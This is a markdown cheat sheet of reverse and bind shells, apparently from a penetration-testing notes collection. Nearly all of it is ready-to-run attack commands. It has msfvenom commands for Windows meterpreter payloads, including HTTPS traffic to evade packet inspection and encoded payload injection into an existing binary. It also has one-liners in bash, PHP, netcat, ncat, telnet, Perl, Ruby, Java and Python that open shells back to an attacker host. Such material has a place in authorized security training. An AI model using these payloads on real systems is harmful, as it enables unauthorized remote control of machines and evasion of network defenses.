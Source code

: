 # Reverse-shells



This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet:
https://highon.coffee/blog/reverse-shell-cheat-sheet/

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Msfvenom

There is more info on this topic in the metasploit chapter in /exploiting.

Therse is an important difference between non-staged and staged payload. A **non-staged** shell is sent over in one block. You just send shell in one stage. This can be caught with metasploit multi-handler. But also with netcat.

**staged** shells send them in turn. This can be useful for when you have very small buffer for your shellcode, so you need to divide upp the payload. Meterpreter is a staged shell. First it sends some parts of it and sents up the connetion, and then it sends some more. This can be caught with metasploit multi-handlet but not with netcat.



### Windows

#### Meterpreter

**Standard meterpreter**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe
```

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

**Meterpreter HTTPS**
It makes the meterpreter-traffic look normal. Since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections. 

```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.101 LPORT=443 -f exe -o met_https_reverse.exe
```


#### Non-staged payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
```

```
use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

#### Staged payload

```
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
```

This must be caught with metasploit. It does not work with netcat.

```
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

### Inject payload into binary

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```


## Bash

```
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```

```
exec /bin/bash 0&0 2>&0
```

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Php
```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Netcat
If there is a firewall running on the target-machine you will not be able to bind a shell to it. But a reverse shell will work.

Bind shell
```
#Linux
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555

# Windows
nc.exe -nlvp 4444 -e cmd.exe
```

Reverse shell
```
nc 192.168.1.101 5555 -e /bin/bash
nc -lvp 5555

nc.exe 10.11.0.191 443 -e cmd.exe 
```

```
nc -e /bin/sh ATTACKING-IP 80
```

```
/bin/sh | nc ATTACKING-IP 80
```

```
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

## Ncat
Ncat is a better and more modern version of netcat. One feature it has that netcat does not have is encryption. If you are on a pentestjob you might not want to communicate unencrypted. 

Bind
```
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 555 --ssl
ncat -v 192.168.1.103 5555 --ssl
```

## Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```


## Perl

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby

```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

